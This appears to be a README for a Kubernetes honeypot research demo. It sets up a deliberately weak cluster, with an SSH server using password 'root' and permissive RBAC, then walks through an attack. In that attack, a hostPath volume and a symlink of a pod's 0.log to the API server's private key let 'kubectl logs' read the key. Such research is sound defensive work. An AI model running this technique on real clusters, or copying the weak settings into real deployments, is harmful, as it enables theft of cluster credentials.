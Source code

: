 # Honeypots Research

## Simple Attack Tree

As a simple example attack tree, we will look at the attack path made possible if an attacker can create hostPath Persistent Volumes on a cluster, inspred by [this blog post](https://jackleadford.github.io/containers/2020/03/06/pvpost.html).

```mermaid
flowchart TD
    A[Access sensitive \ninfo on node] --> |*kubectl logs BAD_POD*| B{Escape from \ncontainer \non node}
    A --> more1[. . . . . . . .]
    B -->|*container can run as root*| C[Dangerous Security Context]
    B --> |*writeable hostPath to /var/log*| D{Pod created \nwith PVC referencing \nhostPath PV}
    D --> E[Credentials] 
    D --> |*pod can create Pods/PVs/PVCs*| F[Misconfigured RBAC]
    E --> |*leaked creds used*| G[Initial access to \npod in cluster]
    E --> more2[. . . . . . . .]
```

## Demo

Bring all the infra up (known issue: wait conditions):
```bash
make all-up
```
Put the traces on
```bash
make traces
```
Go to second shell for STDOUT observations (dont kill this shell)
```bash
make secondshell-on
```
Back to first shell, run
```bash
make attack
```


Spin up a kind cluster:

```bash
make cluster-up
```

Install [Tetragon](https://tetragon.io/):

```bash
make tetragon-install
```

Set up a [vcluster](https://www.vcluster.com/) within our kind cluster where our honeypot workloads will run:

```bash
make vcluster-deploy
```

Install [Kyverno](https://kyverno.io/) and enforce baseline Pod Security Standards across the cluster:

```bash
make kyverno-install
```

Install an intentionally vulnerable SSH server:

```bash
make ssh-install
```

Deploy a local storage class for our vcluster:

```bash
make sc-deploy
```

Set up a potentially dangerous Cluster Role and Cluster Role Binding enabling a default Service Account to create pods, persistent volumes, and persistent volume claims:

```bash
make rbac
```

Set up port forwarding to our SSH server:

```bash
make port-forward
```

Switch to a new terminal tab and copy some scripts over to the SSH server. The password is `root`. This represents initial attacker access to our honeypot cluster, via credential compromise:

```bash
make copy-scripts
```

SSH into the server using the same password:

```bash
make ssh-connect
```

From within the SSH session, run a malicious script which will create a HostPath type PersistentVolume which will allow a pod to access `/var/log` on the host (inspred by [this blog post](https://jackleadford.github.io/containers/2020/03/06/pvpost.html)), using the [Python Kubernetes client library](https://github.com/kubernetes-client/python):

```bash
source priv-create.sh
```

Switch to a new terminal tab and observe the dangerous pod running:

```bash
kubectl get po
```

Let's show that an attacker could use this pod to read arbitrary information from a node in the cluster (in this case we will read the K8s API server's private key). Exec into the pod:

```bash
make exec
```

Run the following from within the pod to write a symlink to its `0.log` file, which is followed by the Node upon `kubectl logs PODNAME` in order to read any file from the Node. `cd` into the directory `/hostlogs/pods/vcluster_bad-pv-pod_......../bad-pv-pod/` and run the following:

```bash
rm 0.log && ln -s /etc/kubernetes/pki/apiserver.key 0.log
```

If the service account compromised by our attacker could inspect the logs of the containers it can create, the attacker could now run:

```bash
k logs bad-pv-pod --tail=-1
```

Note that we can see the first line of the private key.

## Teardown

```bash
make cluster-down
```

## Note for Mac Users
Certain Docker Desktop versions will lead to the following error 
```
level=fatal msg="Load overlay network failed" error="program cil_from_overlay: replacing clsact qdisc for interface cilium_vxlan: operation not supported" interface=cilium_vxlan subsys=datapath-loader
```
downgrading or using an alternative (Orbstack) will solve this . 
